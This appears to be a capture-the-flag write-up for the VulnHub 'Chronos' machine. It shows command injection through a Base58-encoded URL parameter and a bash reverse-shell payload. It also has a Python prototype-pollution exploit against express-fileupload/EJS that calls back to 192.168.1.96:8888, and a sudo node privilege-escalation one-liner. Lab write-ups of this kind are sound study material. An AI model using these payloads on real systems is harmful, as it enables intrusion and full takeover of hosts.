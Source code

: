 # Chronos

![image](https://user-images.githubusercontent.com/5285547/129067750-516ca744-9b4c-4347-982f-5d4a36e431e9.png)

Room link: https://www.vulnhub.com/entry/chronos-1,735/

## Enum

Nmap 

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
```


# Port 80

Nothing much on the home page, refreshing and checking in the dev networks tools shows a strage url request

![image](https://user-images.githubusercontent.com/5285547/129068515-2591006b-ed4a-411c-99f3-540e35be3aef.png)


```
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

Add chronos.local to /etc/hosts file

Now on the page we see the result. 

![image](https://user-images.githubusercontent.com/5285547/129071126-5810cb0f-273c-473e-a8de-a117fc8b32d9.png)

Checking the encoding, it turns out its Base58

![image](https://user-images.githubusercontent.com/5285547/129075155-f2d4cab2-28b4-4fa5-94e0-bb741ec74391.png)

![image](https://user-images.githubusercontent.com/5285547/129083902-4b104c8a-ba76-4b90-9a19-8ddf1f623217.png)

Next was to get a reverse shell. 

```
# payload
;bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1";
```

![image](https://user-images.githubusercontent.com/5285547/129084566-7f38c45b-3083-47b7-b3c5-667bcac3b5e2.png)

Finding another webservice on 127.0.0.1:8080, I checked the system for the files. 

```
www-data@chronos:/opt/chronos-v2/backend$ pwd
/opt/chronos-v2/backend
```
```
www-data@chronos:/opt/chronos-v2/backend$ cat server.js 
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```

cat package.json

```
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",                                                                                                                                                                                                                              
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

This article helps top explain the node express fileupload vuln: https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325

---
## User

Change to the /tmp directory and make a reverse shell as per the article before. 

nano rev.py

```
### imports
import requests

### commands to run on victim machine
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.1.96/8888 0>&1"'

print("Starting Attack...")
### pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName':(None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

### execute command
requests.get('http://127.0.0.1:8080')
print("Finished!")

```

![image](https://user-images.githubusercontent.com/5285547/129087625-827dd813-5488-4481-9600-0c0f9db3f8df.png)

Now we are imera and can get the user flag. 

![image](https://user-images.githubusercontent.com/5285547/129087862-95ebfe9a-7cd0-40ff-a385-48a67148b438.png)


## Root

Checking gtfo bins fdor node, I tested this payload to get root instantly. 

![image](https://user-images.githubusercontent.com/5285547/129088353-2c4463c3-4af8-4d96-8d31-dab3899245e0.png)

```
sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![image](https://user-images.githubusercontent.com/5285547/129088291-8dc411eb-f403-43e1-8941-d308a0008c2d.png)

